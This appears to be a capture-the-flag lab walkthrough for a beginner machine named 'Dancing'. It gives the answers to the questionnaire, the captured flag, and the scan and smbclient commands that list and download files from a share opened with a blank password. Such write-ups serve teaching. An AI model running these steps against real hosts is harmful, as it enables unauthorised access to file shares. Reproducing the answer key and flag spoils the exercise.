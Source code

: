 # Dancing

## Questionnaire

##### What does the 3-letter acronym SMB stand for?

```
Server Message Block
```

##### What port does SMB use to operate at?

```
445
```

##### What is the service name for port 445 that came up in our Nmap scan?

```
microsoft-ds
```

##### What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share?

```
-L
```

##### How many shares are there on Dancing?

```
4
```

##### What is the name of the share we are able to access in the end with a blank password?

```
WorkShares
```

##### What is the command we can use within the SMB shell to download the files we find?

```
get
```

##### Submit root flag

```
5f61c10dffbc77a704d76016a22f1664
```

## Commands

### Scan

```
$ rustscan -a 10.129.1.203

PORT      STATE SERVICE      REASON
135/tcp   open  msrpc        syn-ack
139/tcp   open  netbios-ssn  syn-ack
445/tcp   open  microsoft-ds syn-ack
5985/tcp  open  wsman        syn-ack
47001/tcp open  winrm        syn-ack
```

### Shares

```
$ smbclient --no-pass -L 10.129.1.203

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk
```

### File

```
$ smbclient --no-pass //10.129.1.203/Workshares

smb: \> ls
  .                                   D        0  Mon Mar 29 10:22:01 2021
  ..                                  D        0  Mon Mar 29 10:22:01 2021
  Amy.J                               D        0  Mon Mar 29 11:08:24 2021
  James.P                             D        0  Thu Jun  3 10:38:03 2021

		5114111 blocks of size 4096. 1732425 blocks available
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 10:38:03 2021
  ..                                  D        0  Thu Jun  3 10:38:03 2021
  flag.txt                            A       32  Mon Mar 29 11:26:57 2021

		5114111 blocks of size 4096. 1732424 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \James.P\> quit
```
